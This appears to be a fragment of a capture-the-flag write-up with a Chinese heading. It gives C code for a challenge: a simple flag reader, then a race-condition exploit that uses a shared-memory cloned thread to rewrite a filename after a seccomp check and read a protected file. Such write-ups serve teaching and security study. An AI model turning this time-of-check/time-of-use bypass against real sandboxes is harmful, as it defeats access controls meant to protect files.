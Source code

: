 ```c
	FILE* f = fopen("flag", "r");
	if (f == NULL) {
		printf("Cannot open file!\n");
		return 0;
	}
	char c;
	while ((c=fgetc(f)) != EOF) {
		fputc(c, stdout);
	}
	return 0;
}
```

第二小问 都是 seccomp 的错

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <sched.h>
#include <emmintrin.h>
#define SSIZE 8192
#define BYTES 8192

char filename[] = {[0]='/', [1]='f', [2]='l', [3]='a', [4]=0, [5]=0};
char buffer[BYTES + 1];
_Alignas(16) char stack[SSIZE];

int side() {
	for(int i = 0;i < (1 << 11 | 1 << 10 | 1 << 9);i++){
		_mm_pause();
	}
	printf("Sync.");
	filename[4] = 'g';
	_mm_mfence();
	return 0;
}

int main() {
	clone(side, stack + SSIZE - 8, CLONE_SIGHAND|CLONE_FS|CLONE_VM|CLONE_FILES|CLONE_THREAD,0);
	int fd = open(filename,O_RDONLY);
	read(fd,buffer,BYTES);
	printf("%s",buffer);
	return 0;
}
```
